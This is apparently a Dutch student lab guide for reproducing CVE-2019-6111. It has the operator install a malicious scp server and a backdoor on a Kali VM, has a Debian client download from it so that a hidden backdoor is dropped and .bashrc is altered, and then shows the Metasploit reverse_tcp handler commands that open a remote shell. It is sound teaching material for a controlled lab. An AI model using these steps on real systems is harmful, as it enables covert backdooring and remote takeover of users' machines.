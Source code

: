 # User Deployment Guide - CVE-2019-6111

Deze handleiding beschrijft alle vereiste stappen om de CVE-2019-6111-exploit uit te voeren en een reverse shell op de Debian-client tot stand te brengen.

## Inhoudsopgave

1.  [Vereisten](#vereisten)
2.  [Instellen Omgeving](#instellen-omgeving)
    1.  [Debian (Jessie) Machine](#debian-jessie-machine)
    2.  [Kali Linux (Rolling) Machine](#kali-linux-rolling-machine)
3.  [CVE-2019-6111](#cve-2019-6111)
4.  [Metasploit](#metasploit)

<div class="page"/>

# Vereisten<a name="vereisten"></a>

-   [VirtualBox](https://www.virtualbox.org/wiki/Downloads)
-   [Bash](https://www.gnu.org/software/bash/) of [PowerShell](https://docs.microsoft.com/en-us/powershell/scripting/install/installing-powershell?view=powershell-7.1)
-   [Git](https://git-scm.com/downloads)
-   [Debian (Jessie) vdi](https://www.osboxes.org/debian/#debian-8-jessie-vbox)
-   [Kali Linux (Rolling) vdi](https://www.osboxes.org/kali-linux/#kali-rolling-vbox)

# Instellen Omgeving<a name="instellen-omgeving"></a>

Om de exploit uit te voeren, moeten we eerst de omgeving configureren. Hiervoor hebben we twee virtuele machines nodig: een Debian (Jessie) machine en een Kali Linux (Rolling) machine. De Debian-machine zal het doelwit zijn van onze aanval, terwijl we de Kali Linux-machine gebruiken om de aanval uit te voeren.

## Debian (Jessie) Machine<a name="debian-jessie-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Het script is te vinden in de map `src/debian` van deze repository.

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

## Kali Linux (Rolling) Machine<a name="kali-linux-rolling-machine"></a>

Om deze virtuele machine te installeren, hebben we een script geschreven dat de installatie automatisch uitvoert. Het script is te vinden in de map `src/kali` van deze repository.

```console
$ bash unattended_install.sh
```

of

```console
PS1> .\unattended_install.ps1
```

Deze exploit vereist dat de Debian-client een bestand van een "bad" scp-server downloadt. In dit geval is de Kali-virtuele machine de "bad" scp-server. Om van onze Kali-machine een "bad" scp-server te maken, moeten we een aangepaste scp-binary installeren. Deze binary bevindt zich in de map `src/kali/provision/golang/bin` van deze repository.

**Opmerking**: Voer dit commando uit als root.

```console
# git clone https://github.com/AntonVanAssche/CSV-NPE2223.git
# cp -r CSV-NPE2223/src/kali/provision/golang/bin/bad_scp /usr/bin/scp
```

Daarna moeten we de backdoor in de `/tmp`-map plaatsen. Deze backdoor is te vinden in de map `src/kali/provision/backdoor` van deze repository.

**Opmerking**: Voer dit commando uit als root.

```console
# cp -r CSV-NPE2223/src/kali/provision/backdoor /tmp/backdoor
```

Deze backdoor is gekoppeld aan het IP-adres `192.168.0.121`, dus we moeten het IP-adres van de Kali-machine aanpassen met behulp van het `ip.sh`-script in de map `src/kali/provision/`.

```console
$ bash ip.sh
```

Als laatste stap moeten we de `ssh`-server starten.

**Opmerking**: Voer dit commando uit als root.

```console
# systemctl start ssh
```

<div class="page"/>

# CVE-2019-6111<a name="cve-2019-6111"></a>

Het uitvoeren van de exploit is vrij eenvoudig. We moeten simpelweg een bestand downloaden van de "bad" scp-server. Dit bestand kan elk willekeurig bestand zijn. In dit voorbeeld gebruiken we het bestand `testfile.txt`.

```console
$ scp 192.168.0.121:testfile.txt .
```

Na uitvoering van het commando zal het bestand `testfile.txt` worden gedownload. Als je echter het commando `ls -a` uitvoert, zul je merken dat er ook een bestand genaamd `.backdoor` is gedownload en dat het `.bashrc`-bestand is gewijzigd.

# Metasploit<a name="metasploit"></a>

Nadat de backdoor op de Debian-client is geïnstalleerd, kunnen we een reverse shell opzetten met behulp van het Metasploit-framework.

**Opmerking**: Voer dit commando uit als root.

```console
# msfconsole -q -x "handler -p linux/aarch64/meterpreter/reverse_tcp -P 4444 -H 192.168.0.121"
```

Zodra de gebruiker een nieuwe Bash-shell opent, wordt dit gedetecteerd door Metasploit.

```console
msf6 > sessions 1
```

Om een reverse shell op te zetten, voeren we eenvoudigweg het volgende commando uit:

```console
meterpreter > shell
```
